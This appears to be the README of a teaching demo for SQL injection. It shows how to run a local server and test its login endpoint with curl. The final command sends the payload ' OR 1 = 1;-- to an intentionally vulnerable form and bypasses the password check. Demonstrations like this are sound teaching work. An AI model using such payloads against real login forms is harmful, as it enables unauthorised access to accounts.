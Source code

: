SQL Injection Demo
==========

Execute Server
----------
```
python main.py
```

Test Server
----------
Tests are executed on Windows
```
curl -d "username=felix&password=pwfelix" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}

curl -d "username=felix&password=wrongPW" -X POST http://localhost:5000/login_form_vulnerable
{"status":"fail"}
```

Injection attack
```
curl -d "username=felix&password=' OR 1 = 1;--" -X POST http://localhost:5000/login_form_vulnerable
{"status":"success"}
```
